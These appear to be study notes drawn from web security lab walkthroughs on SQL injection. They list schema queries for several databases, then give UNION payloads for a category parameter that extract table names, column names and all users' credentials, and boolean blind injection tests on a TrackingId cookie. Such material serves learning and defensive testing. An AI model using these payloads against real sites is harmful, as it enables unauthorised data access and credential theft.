 You can list the tables that exist in the database, and the columns that those tables contain.

|            |                                                                                                                              |
| ---------- | ---------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | `SELECT * FROM all_tables   SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`                              |
| Microsoft  | `SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   ` |
| PostgreSQL | `SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   ` |
| MySQL      | `SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`    |

# example

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:
    
    `'+UNION+SELECT+'abc','def'--`
3. Use the following payload to retrieve the list of tables in the database:
    
    `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
    
    `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    
    `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`
8. Find the password for the `administrator` user, and use it to log in.
## example of blind sql injection with bool

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie. For simplicity, let's say the original value of the cookie is `TrackingId=xyz`.
2. Modify the `TrackingId` cookie, changing it to:
    
    `TrackingId=xyz' AND '1'='1`
    
    Verify that the `Welcome back` message appears in the response.
    
3. Now change it to:
    
    `TrackingId=xyz' AND '1'='2`
    
    Verify that the `Welcome back` message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.
    